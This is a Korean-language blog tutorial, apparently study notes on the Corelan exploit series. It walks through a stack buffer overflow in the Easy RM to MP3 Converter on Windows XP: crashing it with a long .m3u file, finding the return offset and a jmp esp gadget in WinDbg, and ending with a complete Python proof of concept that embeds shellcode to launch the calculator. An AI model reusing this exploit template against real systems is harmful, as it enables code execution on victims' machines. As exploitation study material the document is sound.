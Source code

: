 ```yaml
---
layout: post
title: windows exploit tutorial - Easy RM to MP3
---
```



윈도우 폰

0. Info
----------
corelen 팀의 windows exploit tutorial 문서 part 1 인 Easy RM to MP3프로그램의 stack based overflow 취약점을 이용해 exploit을 해보겠다. os 환경은 window xp sp3 en 에서 진행 하였다. debugger는 windbg를 이용하였다.

![](https://lh4.googleusercontent.com/ZIcdxR1-jprVAu9b47F5fQqiW26GXSSQZLlqFlK0pxXVM_u7v2c9nLy3vKhaixVYB7L2aJncbuzAVCruYf2fh8bIirmCMQtissCqZEqfAnCWLSNsK01wvP30v8bPZ-txkncxH3I2)

  

exploit db에 검색하면 해당 취약점에 대한 정보와 당시 프로그램을 구할 수 있다. 내가 공부한 내용은 2009-07-16 Crazy_Hacker가 발견한 버그이다.

  

1. Vulnerability

----------

.m3u 포멧의 파일을 열 때 stack based overflow 취약점이 발생한다.

  

![](https://lh3.googleusercontent.com/cdQ3kcN9Jl-xJzLhVlyrhP3TcjbHh1ulzxnkeb-MwzUBkEJm5iyXcniDZIDNPZy2ZGi94ZBi8vR0noamKSlqwozzskZPybn-C310bTc295iiqjWiuzMBgResxCjJ4tTp2k6Ogrmr)

  

파이썬을 이용해 “A”를 30000개를 적어준다.

  

이를 Easy RM to MP3로 열게 되면

  

![](https://lh4.googleusercontent.com/nqYshKyZjKSXE3-97ciq9x7YerEG0wVglCVvkhx5v6Ml06MGY9ajkHTiozJUqybWKIU0hMHyrzwKxXooDiHlgKzasWZWfCxrUzmT4_gLUuXIa7Phu3pmBU_HI2vlnjel2AP4Rd2i)

  

크래시가 발생되고 비정상적으로 프로그램이 종료된다.

  

2. exploit

----------

이제 좀 더 정확한 정보를 얻기 위해서 windbg를 이용해서 eip가 덮혔는지 확인 해보겠다. eip가 덮히면 해커의 시나리오 대로 프로그램을 조작할 수 있기 때문에 exploit 가능성이 높아진다.

  

일단 windbg를 post-mortem 으로 등록해야 한다. 이 기능은 자동적으로 프로그램이 crash가 발생하여 비정상적으로 종료가 되면 windbg를 실행시켜 그 정보를 바로 확인 할 수 있게 해준다.

  

windbg가 설치 되어 있는 폴더 에 들어가서 windbg.exe -I 로 설정할 수 있다.

![](https://lh3.googleusercontent.com/g41REbmXii4w88afMS04xZ12VCdaX7d_-g9VAIOGRzUtdWQzqGPuYD4Pyc1W9RYbaDVhxnq5Ewlax2j7Xc0gCM4MuZXZSo1km32fqz124VRioXRcCMsHl2_HEw02OGVGSwJpIeba)

![](https://lh4.googleusercontent.com/dXVssplaFXF1iL07tlUmr4MXaLZEUUfIXWdlU1HMUmfglyzRelWqpS19ode9gwlwSuZT1kPc6DOTanqXZRhG_HXUpBCNQnQT6KCWWeNZYqIDFRdZ_9W6ULLCI3HDqZAqAQDDZbgN)

  

성공적으로 postmortem 으로 등록 되었다.

  
  

다시 한번 carsh.m3u 파일을 실행해보겠다.

  

![](https://lh3.googleusercontent.com/AY9E4YGM-Qs8WyJxUqT_HsYdevolpdenQo_y6qT2sh16bHHHo6UDo1D5Dpd_2pHHa-VqWEAVaFO_4ZB_YOyknWgfzs0tsV8F4CfNVo4n6OPQUZ0kb-4euZkXqWG8Aal_94J2OQK7)

  

crash가 나면서 자동적으로 windbg가 실행되고 레지스터 사이를 보니 eip가 AAAA 41414141로 바뀌어 있다. 즉, stack based overflow를 이용해서 ret을 조작해 eip를 조작할 수 있고, 해커의 시나리오 대로 프로그램을 조작할 수 있게 된다.

  

aslr이 적용 되어 있지 않기 때문에 쉘코드를 스택에 넣고 뛰면 되겠지만 주소에 \x00 바이트를 포함 하고 있어 exploit 할 수 없다.

  

다른 방법을 모색해야 하는데, 바로 jmp esp 가젯을 이용하는 것 이다.

  

(pwnable.kr echo1문제도 jmp esp 가젯을 이용했던 것 같다. 관련 풀이를 보면 왜 이 가젯을 이용하는지 알게 될 거다.)

  

간단하게 설명하자면, 함수 에필로그 leave ; ret ; 에서 ret이 실행 되기 전에 mov esp, ebp 구문이 있다.

  

esp를 ebp로 데려오는데, 그러면 esp는 ret뒤를 가리키게 된다. eip를 jmp esp 가젯을 실행 하면, ret뒤로 뛰게 되는 거다.

  

그러면 payload에서 ret뒤에 shellcode를 위치시키면 shellcode를 실행 할 수 있게 될 것 이다.

  

“jmp esp” 가젯은 .dll 파일에서 찾을 수 있다. .dll파일은 windbg가 로드 될 때 상단에 정보가 보인다.

  

![](https://lh5.googleusercontent.com/tEaaI_QEZnPHHRq8YbPIAc5inj3JjG418e4L8B0iRqsryTLpmKUP0HjsHSJCj1FXxH72H3fGe5ncS-MOfbr384nHOgkHhA05R2ZtBCqtV2RxKBGt_kLTQHNi_Qla_56KPTvqLm0A)

  

system32 에 있는 .dll에서 가젯을 구하면 해당 pc에선 poc가 작동하겠지만 다른 곳에선 poc가 작동 안 할 수 있다. 따라서 프로그램이 자체적으로 가지고 있는 .dll에서 가젯을 구하도록 하겠다.

  

다시 windbg를 실행하고 멀쩡한 easy rm to mp3를 attach 한다. 사용할 .dll은

  

01c80000 0214d000 C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll

  

를 사용 할 것이다.

  

![](https://lh5.googleusercontent.com/gChFTiFAoT820hGeoBEtQkVao23IOdbnmNpIgxKkMUJ098UmU36AloD27GqOdCx04PqzsZFMlz0NAGSMA8_LgjOIcnxIVyWvZlA74mAfkuR1GsAMmQJ_Xw0BZ9cg6ojZkBYSHxV7)

  

일단 “jmp esp” 의 opcode를 찾아야 한다.

  

![](https://lh4.googleusercontent.com/dlVn30KEQVtJ7BsTCUJAV8_sXM22b5b-Y6hKthMcGiJKY_-4uvhe6HXMjKcOLkFgY_G1hawGgjiQXXyfBjB96TlmzXCZKONIuaIagSC-WreA8lS8fkoS6aa-qOu59I-NfC7QiBU6)

a(assemble) 를 적고

  

jmp esp를 적는다.

  

그럼 7c901210에 jmp esp가 있는거다.

  

![](https://lh5.googleusercontent.com/yI1mZLaDrLHDIiK3KrQ9naY0rlwqND_P8drLnBEtBMvjXg-lutFezpSUqj1kaQ7artp66IDqcc71GIxGkIvAI0YZzJAFVF7M9j772dcENHHmUrYkS6mim5DTk6sejuHRUO-3CxXJ)

  

ff e4가 jmp esp의 opcode인 것을 확인 할 수 있다.( 사실 pwntool로 구하는 걸 블로그에 올렸었던 것 같지만.. 이 문서에서는 이렇게 소개한다.)

  

이제 dll에서 ff e4를 찾으면 된다.

  

01c80000 0214d000 C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll

  

이 dll에서 01c80000 0214d000이게 그 영역인데,

  

![](https://lh3.googleusercontent.com/PZFXbEHTMbc8J_OKgS2oyJFDdzgHvwok_Z7hwbgsfvjKIvTYGkmCau6jSZ7MJfdRRM-GALuJbcjVkzEwgCdV8tJhZ-1VkrwIkXt1sGJd2qTy7GcKuhNv1QNurZdBZSoa5pYCEkRy)

  

이렇게 search 할 수 있다. ff e4의 위치는 0x1e3f23a 이다.

  

생각해보니 ret의 위치를 안 찾았다.

  

메타스플로잇의 tool인 pattern_create.rb, pattern_offset을 이용해서 ret의 위치, offset을 쉽게 구할 수 있다.

  

![](https://lh4.googleusercontent.com/OafX36Bi6K5E7ldKH8Ix0dEznhmcdA7VvLABLIo6YZCmOcrn6wUIXfbqbg4kAZOmrM0KVhK0ciIAap-3XFzivH9LAfr_BUfY7ch2-cXKh_zaslPGK5BVj37fDyLbkWDLzqi4nbx_)

  

이렇게 30000개의 패턴을 뽑은 뒤,

  

.m3u파일에 넣는다.

  

![](https://lh4.googleusercontent.com/OeXyCSv6MlFMnB_9PzBCqegdEiG2MTyLlJsioLYB_PLkFury0BND38dsu4vY6nge0ZlnNAdRJQl1QoxrhL9nhKF3gAgvGLRmJwRFwhkn1cl5nzC2iH8Jyb18gmLdKUA62lnxLqZa)

  

생성 된 파일을 실행시켜 crash를 낸다.

  

windbg가 실행되면서 eip가 조작 되었을거다.

  

![](https://lh5.googleusercontent.com/O7teTfnP8HUoUCabBvasigwyTNKOAogTVz1L5OsD8293BvNn0MPXDv2GuMFxqrLcM5SJzcL8bhglGoY8LeCkswcORL4_uXxPnBFiMsVi397YR0-pA_rYKuFA3aeEwbWF6W21c-BO)

  

eip 0x48386b48이 적혀있다.

  

![](https://lh3.googleusercontent.com/CmM-1elm22MagOn0KsqFpBh358L8_-J-PS8UVL8AihtgdS-CmIF0kaUvn9qFPbpSJS-8Eiiv1S8rm3VO_etPMifNnjTTpnSxQOuxjER7oG-m_HMlGgi7QTDjF7s4Fz_QcERf4wUf)

  

이렇게 ./pattern_offset.rb [eip] [create 한 byte길이] 를 실행하면

  

![](https://lh4.googleusercontent.com/StDB55DtoRqr1RiD9vsPTz1nDWIykXaiWuU_u9J7WceRNMPuQc4evtnHmik9Hm7ifQKhlYD_395AifbZBaJNGfvsoJ6egaRwsz_RhB7GPR7JFMJvR_z5jVWzEeQeC3lGdaaeiOc9)

5784 부분과 26064부분이라고 나오는데 우리는 20000이상이니깐 26064부터 4바이트가 ret위치라는 것을 알 수 있다.

  

이제 바로 poc를 작성 해보겠다.

  

3. poc

----------

  ```python
  f =  open("C:\\Documents and Settings\\Administrator\\Desktop\\crash.m3u", "w")

gadget =  "\x3a\xf2\xd2\x01"

shellcode =  "\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"  +"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"  +"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"  +"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"  +"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"  +"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"  +"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"  +"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"  +"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"  +"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"  +"\x7f\xe8\x7b\xca"

payload =  "A"*26064

payload += gadget

payload +=  "\x90"*50

payload += shellcode

payload +=  "\x90"*50

f.write(payload)

f.close()
```


  

사용한 쉘코드는 계산기를 띄우는 쉘코드이다.

  

생성된 crash.m3u를 실행 하게 되면

![](https://lh6.googleusercontent.com/SDdZuu6i1m-iaNLPukrxwUpBIiLEWNNDuB2s_40dNdH7yQOhRVuk7m_-x5a1xjC5EoBaV_1X80fS_YhFBrlGTYorv2egOzZAvJIkktoZcT0063TigeOGqMzPZUSj9EXBue38m7AJ)

  

성공적으로 계산기가 실행되었다.
